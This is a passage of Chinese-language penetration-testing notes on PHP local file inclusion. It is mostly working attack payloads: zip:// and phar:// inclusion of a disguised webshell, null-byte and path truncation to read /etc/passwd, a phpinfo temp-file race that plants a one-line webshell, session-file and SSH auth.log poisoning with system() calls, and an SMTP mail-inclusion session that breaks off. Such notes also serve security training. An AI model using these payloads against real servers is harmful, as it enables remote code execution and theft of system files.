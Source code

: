	?><br>
	利用伪协议zip，构造一个zip压缩包，打包一个shell.php，将压缩包更名为png
![image](/assets/Pentest_Note/master/img/4.png)

	请求/1.php?file=zip://shell.png%23shell
![image](/assets/Pentest_Note/master/img/5.png)

	也可使用phar协议访问
	/1.php?file=phar://shell.png/shell
	老版本可以使用%00截断
	/etc/passwd%00
	(需要 magic_quotes_gpc=off，PHP小于5.3.4有效)
	/var/www/%00
	/etc/passwd/././././././.[…]/./././././.
	(需要 magic_quotes_gpc=off
	(php版本小于5.2.8(?)可以成功，linux需要文件名长于4096，windows需要长于256)
	点号截断：
	/boot.ini/………[…]…………
	(php版本小于5.2.8(?)可以成功，只适用windows，点号需要长于256)
 #### phpinfo-LFI 本地文件包含临时文件getshell
	利用临时文件删除时间差获取shell
	需要一个lfi漏洞+phpinfo页面
	在/tmp/目录下生成个密码为f的一句话木马g
![image](/assets/Pentest_Note/master/img/6.png)

	修改脚本的phpinfo文件名称
![image](/assets/Pentest_Note/master/img/7.png)

	LFI文件
![image](/assets/Pentest_Note/master/img/8.png)

	执行
	>python getshell.py 192.168.0.108 80 100
	80是端口、100是线程
![image](/assets/Pentest_Note/master/img/9.png)
![image](/assets/Pentest_Note/master/img/10.png)

	http://192.168.0.110/index.php?file=../../../tmp/g&f=echo%20%271%27
 #### session + lfi getshell
	session.upload_progress.enabled启用时，文件上传会产生进度文件
	/var/lib/php5/sess_
	/var/lib/php/sess_

	Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
	Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
	将cookie设置为<?php system('cat /etc/passwd');?>
	包含文件/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27
 #### LFI SSH Log
	>ssh '<?php system($_GET['c']); ?>'@192.168.0.107
	>ssh <?php system($_GET["cmd"]);?>@10.10.10.10
	>http://192.168.0.107/lfi.php?file=/var/log/auth.log&c=ls
 #### 邮件包含
  	root@kali:~# telnet 10.10.10.10. 25
	Trying 10.10.10.10....
	Connected to 10.10.10.10..
	Escape character is '^]'.
	220 straylight ESMTP Postfix (Debian/GNU)
	helo ok
	250 straylight
	mail from: mail@example.com
	250 2.1.0 Ok